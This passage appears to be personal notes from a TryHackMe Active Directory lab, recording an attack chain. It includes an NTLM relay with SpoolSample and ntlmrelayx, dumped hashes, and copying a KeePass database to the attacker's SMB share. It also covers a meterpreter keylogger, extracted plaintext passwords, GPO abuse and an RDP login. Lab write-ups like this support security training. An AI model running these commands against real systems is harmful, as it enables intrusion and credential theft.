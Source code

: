- We find out it is enabled but not enforced so we can exploit it
- We can use `sppolsample.exe` to force THMSERVER2 to authenticate and then use `ntlmrelayx.py` to relay the authentication to THMSERVER1
- We need to use the IP of THMSERVER1
```bash
impacket-ntlmrelayx -smb2support -t smb://10.200.83.201 -debug
```

- And on THMWRK1 we can use
```bash
.\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.81.121
```

- Dumped hashes
```bash
serverAdmin - 3279a0c6dfe15dc3fb6e9c26dd9b066c
trevor.local - 43460d636f269c709b20049cee36ae7a
```

- Got in
---------------------------------------------------------------------------------
- Found a `PasswordDatabase.kdbx`
- Copied it to my SMB server
```bash
$pass = convertto-securestring "password" -AsPlainText -Force # To convert it to useable password
$cred = New-Object System.Management.Automation.PSCredential('ace', $pass) # Setting up cred object with username and password
New-PSDrive -Name "ace" -PSProvider FileSystem -Credential $cred -Root \\10.50.81.121\share # Connecting the drive to windows
cd ace:
```

- Used a meterpreter shell by creating a reverse shell using msfvenom to use a keylogger so we can intercept the password to database
- We cant start a keylogger using SYSTEM level shell
- Used `ps` and found a process running as `trevor.local`
- Migrated to it
- Started keylogger
```bash
keyscan_start
```

- Dumped the keyscan
- Found password
	Imreallysurenoonewillguessmypassword

- Used keepassx to open the database and extract passwords
	svcServMan:Sup3rStr0ngPass!@
---------------------------------------------------------------------------------
- Dumped bloodhound data
- Found a GenericWrite to `Management Server Pushes` GPO 
- Found a path to THMSERVER2
- We can RDP into THMSERVER1 and edit GPO but that can raise alerts
- We will RDP into THMWRK1 and inject AD credentials that we found
```bash
xfreerdp /v:THMWRK1.za.tryhackme.loc /u:justin.barnes /p:O8SMjhmo +clipboard /dynamic-resolution
```
